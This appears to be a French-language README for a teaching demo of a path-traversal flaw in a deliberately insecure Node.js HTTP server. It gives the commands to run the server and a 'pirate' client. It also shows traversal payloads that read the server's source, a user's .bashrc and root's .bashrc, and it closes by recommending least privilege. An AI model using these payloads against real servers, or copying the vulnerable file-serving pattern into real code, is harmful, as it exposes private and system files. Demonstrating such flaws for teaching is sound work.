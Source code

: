 # Démonstration d'une injection

Vous trouverez ici un serveur HTTP possédant une faille de sécurité : Une injection.

## Démarrer le serveur

1. Pour démarrer le serveur HTTP faites les commandes suivantes :

```bash
cd http-server-non-secure
node app.js 
```
## Démarrer le client pirate
2. Pour démarrer le client HTTP pirate, faites les commandes suivantes :

```bash
cd client-http-node
npm run start
```

Rendez-vous dans le code source du client http node. Pour voir comment est-ce que un client HTTP pirate a été fabriqué à partir d'un client TCP.

```js
new CustomHTTPRequest(3050, "127.0.0.1", "/../app.js");
```

## Quel à été l'attaque ?

**Le client TCP réussi à récupérer le code source du serveur alors qu'il se trouve en dehors du dossier public, ce qui constitue une faille de sécurité pour ce serveur.**

Pour ce faire, il effectue une injection (`"/../app.js"`) en prévoyant à l'avance le fait que readFile va effectuer une commande dans le file system Linux. 

Ici je récupère simplement le code source du serveur mais je pourrait aussi accéder au fichier personnel de l'utilisateur qui à lancer le server.

```js
new CustomHTTPRequest(3050, "127.0.0.1", "/../../../../../../../../../../../home/massinissa/.bashrc");
```

Parfois l'utilisateur root qui lance les programmes sur le serveur
```bash
cd http-server-non-secure
sudo node app.js 
```

A cause de cette faille je peux aussi accéder au dossier personnel du root.

```js
new CustomHTTPRequest(3050, "127.0.0.1", "/../../../../../../../../../../../root/.bashrc");
```

Faite donc très attention à toujours respecter la regle du Least Privileges : https://en.wikipedia.org/wiki/Principle_of_least_privilege
